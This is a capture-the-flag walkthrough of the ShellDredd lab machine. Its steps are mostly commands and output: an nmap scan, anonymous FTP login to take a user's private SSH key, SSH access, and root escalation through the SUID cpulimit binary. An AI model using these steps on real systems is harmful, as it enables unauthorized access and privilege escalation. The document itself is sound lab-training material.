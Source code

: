 -> I started by enumerating the machine
```
┌──(root㉿kali)-[/home/astra]
└─# nmap -p- --min-rate 10000 -Pn -sV 192.168.189.130

Starting Nmap 7.93 ( https://nmap.org ) at 2023-02-22 09:06 EST
Nmap scan report for 192.168.189.130
Host is up (0.13s latency).
Not shown: 65533 closed tcp ports (reset)
PORT      STATE SERVICE VERSION
21/tcp    open  ftp     vsftpd 3.0.3
61000/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.74 seconds
```
-> Didnt find much, so I try to login to the ftp using anonymous
```
┌──(root㉿kali)-[/home/astra]
└─# ftp 192.168.189.130

Connected to 192.168.189.130.
220 (vsFTPd 3.0.3)
Name (192.168.189.130:astra): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -la
229 Entering Extended Passive Mode (|||6612|)
150 Here comes the directory listing.
drwxr-xr-x    3 0        115          4096 Aug 06  2020 .
drwxr-xr-x    3 0        115          4096 Aug 06  2020 ..
drwxr-xr-x    2 0        0            4096 Aug 06  2020 .hannah
226 Directory send OK.
ftp> cd .hannah
250 Directory successfully changed.
ftp> ls -la
229 Entering Extended Passive Mode (|||11263|)
150 Here comes the directory listing.
drwxr-xr-x    2 0        0            4096 Aug 06  2020 .
drwxr-xr-x    3 0        115          4096 Aug 06  2020 ..
-rwxr-xr-x    1 0        0            1823 Aug 06  2020 id_rsa
226 Directory send OK.
ftp> get id_rsa
local: id_rsa remote: id_rsa
229 Entering Extended Passive Mode (|||32516|)
150 Opening BINARY mode data connection for id_rsa (1823 bytes).
100% |***********************************************************************************************************|  1823        8.64 MiB/s    00:00 ETA
226 Transfer complete.
1823 bytes received in 00:00 (13.57 KiB/s)
ftp> exit
221 Goodbye.
```
-> Here I found an user called hannah that had an id_rsa, allowing me to connect ssh and get the first flag                
```
┌──(root㉿kali)-[/home/astra]
└─# chmod 600 id_rsa 
                                                                                                                                                        
┌──(root㉿kali)-[/home/astra]
└─# ssh hannah@192.168.189.130 -i id_rsa -p 61000

The authenticity of host '[192.168.189.130]:61000 ([192.168.189.130]:61000)' can't be established.
ED25519 key fingerprint is SHA256:6tx3ODoidGvtQl+T9gJivu3xnndw7PXje1XLn+lZuSM.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[192.168.189.130]:61000' (ED25519) to the list of known hosts.
Linux ShellDredd 4.19.0-10-amd64 #1 SMP Debian 4.19.132-1 (2020-07-24) x86_64
The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
hannah@ShellDredd:~$ ls  
local.txt  user.txt
hannah@ShellDredd:~$ cat local.txt 
4b60792fff07d9c593515a95f28da053
hannah@ShellDredd:~$ 
```

-> Now I need to escalate privileges, I start it by doing a search for files with SUID permission
```
hannah@ShellDredd:~$ find / -perm -4000 2>/dev/null

/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/umount
/usr/bin/mawk
/usr/bin/chfn
/usr/bin/su
/usr/bin/chsh
/usr/bin/fusermount
/usr/bin/cpulimit
/usr/bin/mount
/usr/bin/passwd
hannah@ShellDredd:~$ 
```
-> I see "cpulimit" and I think we can exploit that, after searching the web for a while I found this

![Screenshot_2](https://user-images.githubusercontent.com/47869173/220662365-ff298f81-c187-4c5f-affa-50ec0bbd5fce.png)


We can use this to get root access, so lets get to it
```
hannah@ShellDredd:~$ /usr/bin/cpulimit -l 100 -f -- /bin/sh -p
Process 1247 detected
# whoami
root
# 
```
-> Done, now we get the root flag 
```
# cd root
# ls
proof.txt  root.txt
# cat proof.txt
9dc861ef08a1562bea36e2fce7803869
# 
```
-> Thats it !

